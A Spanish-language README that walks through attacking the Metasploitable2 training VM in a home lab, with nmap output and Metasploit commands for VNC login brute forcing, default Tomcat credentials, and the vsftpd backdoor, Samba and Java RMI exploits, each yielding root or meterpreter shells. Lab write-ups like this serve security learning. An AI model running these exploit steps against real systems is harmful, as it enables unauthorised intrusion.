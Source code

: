 # Cómo he vulnerando la máquina metasploitable2

### Obtengo la IP de la máquina a atacar usando netdiscover:

```
 Currently scanning: 192.168.61.0/16   |   Screen View: Unique Hosts                                                                                        
                                                                                                                                                            
 7 Captured ARP Req/Rep packets, from 5 hosts.   Total size: 420                                                                                            
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     f8:0d:a9:97:b3:e0      3     180  Zyxel Communications Corporation                                                                         
 192.168.1.196   1c:ce:51:b7:b5:ac      1      60  Unknown vendor                                                                                           
 192.168.1.253   08:00:27:f1:2e:1c      1      60  PCS Systemtechnik GmbH                                                                                   
 192.168.1.153   d8:5e:d3:95:80:15      1      60  GIGA-BYTE TECHNOLOGY CO.,LTD.                                                                            
 192.168.1.251   b6:73:e4:26:95:b6      1      60  Unknown vendor 

```

La IP de la máquina virtual es: `192.168.1.253`


### Seguidamente hice un nmap -sV en busqueda de puertos abiertos junto al servicio que usa y su versión:

```
┌──(kali㉿kali)-[~]
└─$ nmap -sV 192.168.1.253      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-13 11:20 CEST
Nmap scan report for 192.168.1.253
Host is up (0.00083s latency).
Not shown: 977 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.84 seconds
```

Como resultado obtuve una interesante diversidad de puertos y servicios potencialmente vulnerables, aunque de primeras me interesó el servicio `VNC` alojado en el puerto `5900`

### Vulnerando el servicio VNC del puerto 5900:

> VNC es un sistema de software libre que permite la conexión remota y el control de un ordenador a través de la red


- Accedo a `msfconsole`
- Uso el módulo: `use auxiliary/scanner/vnc/vnc_login`
- Establezco la IP de la máquina atacada `set RHOSTS 192.168.1.253` y ejecuto el exploit usando `run`
- Obteniendo como resultado la contraseña de acceso al servicio VNC
```
msf6 auxiliary(scanner/vnc/vnc_login) > run
[*] 192.168.1.253:5900    - 192.168.1.253:5900 - Starting VNC login sweep
[!] 192.168.1.253:5900    - No active DB -- Credential data will not be saved!
[+] 192.168.1.253:5900    - 192.168.1.253:5900 - Login Successful: :password
[*] 192.168.1.253:5900    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
- Seguidamente accedo al servicio de VNC con la contraseña `password` y obtengo el acceso remoto al usuario root de la máquina atacada

![vnclogin](vnc.PNG)

### Vulnerando el servicio Apache Tomcat del puerto 8180:

> Apache Tomcat es un programa que permite ejecutar páginas web hechas con Java. Funciona como un servidor que recibe las peticiones de los usuarios y les muestra el contenido.

- Primero accedí al servidor web `http://192.168.1.253:8180/` pero solo me encontré con el portal por defecto de Tomcat
- Después probé con `msfconsole`
- Uso el exploit: `use exploit/multi/http/tomcat_mgr_upload`
- Establezco la IP de la máquina atacada `set RHOST 192.168.1.253` y el puerto `set RPORT 8180`
- Configuro el usuario y contraseña con la que intentará hacer el exploit `set HttpUsername tomcat` `set HttpPassword tomcat` y lo inicio con `run`
- Obteniendo como resultado una consola de meterpreter directa a la máquina atacada

![apache_tomcat](apache_tomcat.PNG)
  
### Vulnerando el servicio FTP del puerto 21:

> FTP (File Transfer Protocol) es un protocolo que se usa para transferir archivos entre ordenadores a través de una red. Usa la versión vsftpd (Very Secure FTP Daemon), que es un programa de servidor FTP que permite a otros equipos conectarse a un servidor para subir o descargar archivos usando el protocolo FTP.

- Accedo a `msfconsole`
- Uso el exploit `use exploit/unix/ftp/vsftpd_234_backdoor`
- Establezo la ip de la máquina atacada `set RHOSTS 192.168.1.253` y lo ejecuto con `run`
- Obteniendo así el acceso a root

![ftp](ftp.PNG)


### Vulnerando el servicio Samba de los puetos 139 y 445:

> Samba es un programa que permite compartir archivos e impresoras entre computadoras con Linux y Windows. Usa el protocolo SMB/CIFS para comunicarse con equipos Windows.

- Accedo a `msfconsole`
- Uso el exploit `use exploit/multi/samba/usermap_script`
- Establezo la ip de la máquina atacada `set RHOSTS 192.168.1.253` y lo ejecuto con `run`
- Obteniendo así el acceso a root
  
![samba](samba.PNG)



### Vulnerando el servicio Java-RMI del puerto 1099:

> Java RMI (Remote Method Invocation) es una tecnología que permite a un programa Java ejecutar métodos de objetos ubicados en otra computadora, como si fueran locales. Es una forma de comunicación remota entre aplicaciones Java.

- Accedo a `msfconsole`
- Uso el exploit `use exploit/multi/misc/java_rmi_server`
- Establezo la ip de la máquina atacada `set RHOSTS 192.168.1.253` y lo ejecuto con `run`
- Obteniendo una consola de meterpreter
  
![java_rmi](java_rmi.PNG)